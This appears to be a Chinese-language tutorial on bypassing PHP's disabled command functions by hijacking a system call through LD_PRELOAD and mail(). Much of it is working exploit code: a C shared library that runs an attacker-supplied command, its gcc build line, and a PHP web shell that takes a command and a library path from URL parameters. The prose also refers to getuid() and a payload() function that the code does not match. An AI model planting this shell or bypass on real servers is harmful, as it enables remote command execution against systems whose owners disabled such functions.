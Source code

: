  我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

 一般而言，利用漏洞控制web启动新进程a.bin，新进程a.bin的内部调用系统函数b()，b()位于系统共享对象c.so中，所以系统为该进程加载共享对象，我们就要想办法在加载c.so之前优先加载可控的c_evil.so，c_evil.so内含有与b()同名的恶意函数，而由于c_evil.so的优先级比较高，所以a.bin调用到c_evil.so内的b()而非系统内的c.so里面的b()函数，同时，c_evil.so是我们可控的，这样就能达到执行恶意代码的目的。操作如下:

```php
1.编写一个原型为uid_t getuid(void);的C函数，内部执行攻击者指定的代码，并编译成共享对象，getuid_shadow.so;
2.运行PHP函数putenv()（用来配置系统环境变量），设定环境变量LD_PRELOAD为getuid_shadow.so，以便后续启动新进程时优先加载该共享对象。
3.运行PHP的mail()函数，mail()内部启动新进程/usr/sbin/sendmail，由于上一步LD_PRELOAD的操作，sendmail调用的系统函数getuid()被优先级更高的getuid_shadow.so中的同名函数getuid()所劫持。
4.从而达到不调用PHP的各种命令执行函数，仍然可以执行系统命令的目的
```

 而之所以劫持getuid()，是因为sendmail程序会调用该函数(当然也可以为其他被调用的系统函数)，在真实环境中，容易存在这两个问题

```php
1.某些环境中，web禁止期用sendmail，甚至系统上根本没有安装sendmail，也就谈不上劫持getuid()了，通常的www-data权限也无法去更改php.ini配置，安装sendmail
2.即使目标可以启用sendmail，因为未将主机名（hostname）添加进hosts中，导致每次运行sendmail都要花半分钟等待域名解析超时返回，www-data也无法将主机名加入hosts(如127.0.0.1 lamp、lamp、lamp.com)
```

## 攻击利用

### 法一：劫持get_uid()

编写test.c，劫持getuid()函数，获取LD_PRELOAD环境变量并预加载恶意的共享库，再删除环境变量 LD_PRELOAD，最后执行由EVIL_CMDLINE环境变量获取的系统命令：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int geteuid() {
        const char* cmdline = getenv("EVIL_CMDLINE");
        if (getenv("LD_PRELOAD") == NULL) { return 0; }
        unsetenv("LD_PRELOAD");
        system(cmdline);
}
```

当这个共享库中的getuid()被调用时，尝试加载payload()函数执行命令。

接着用以下语句编译C文件为共享对象文件：

```shell
gcc -shared -fPIC test.c -o test.so
```

最后编写test.php：

```php
<?php
    echo "<p> <b>example</b>: http://127.0.0.1/exp.php?cmd=pwd&outpath=/tmp/xxx&sopath=/var/www/html/exp.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```
